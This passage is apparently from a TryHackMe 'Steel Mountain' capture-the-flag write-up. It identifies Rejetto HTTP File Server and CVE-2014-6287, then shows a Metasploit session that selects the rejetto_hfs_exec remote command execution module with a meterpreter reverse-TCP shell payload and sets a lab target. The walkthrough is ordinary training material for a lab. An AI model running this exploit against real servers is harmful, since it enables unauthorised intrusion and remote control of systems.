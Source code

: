 `Rejetto HTTP File Server`

What is the CVE number to exploit this file server?

[Rejetto HTTP File Server (HFS) 2.3.x](https://www.exploit-db.com/exploits/39161)

`2014-6287`

Use Metasploit to get an initial shell. What is the user flag?

```
kali@kali:~/CTFs/tryhackme/Steel Mountain$ msfconsole -q
msf5 > search 2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.178.57   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.208.51
RHOSTS => 10.10.208.51
```